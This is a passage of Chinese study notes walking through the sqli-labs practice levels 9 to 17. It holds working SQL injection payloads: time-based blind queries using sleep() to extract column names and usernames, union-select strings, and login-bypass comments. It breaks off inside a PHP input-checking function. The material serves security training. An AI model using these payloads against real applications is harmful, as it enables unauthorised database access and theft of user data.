猜列：

>   id=1' and if(ascii(substr((select column_name from information_schema.colunms where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+

猜值：

>   id=1' and if(ascii(substr((select username from users limit 0,1),1,1))=68,1,sleep(5))--+

## Less10

双引号闭合的时间注入

和上一关一样。

## Less11

username： admin' #

111' union select 1,database()#

等等等，后面的和get的就都一样了。

## Less12

双引号和括号

其他和Less11相同

## Less13

将提示信息都注释掉了，可以采用布尔盲注。

## Less14

双引号，报错注入

## Less15

单引号，可以布尔盲注或时间盲注。

## Less16

双引号，同15

## Less17

```php
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
			{
			$value = stripslashes($value);
			}

		// Quote if not a number
		if (!ctype_digit($value))
			{
```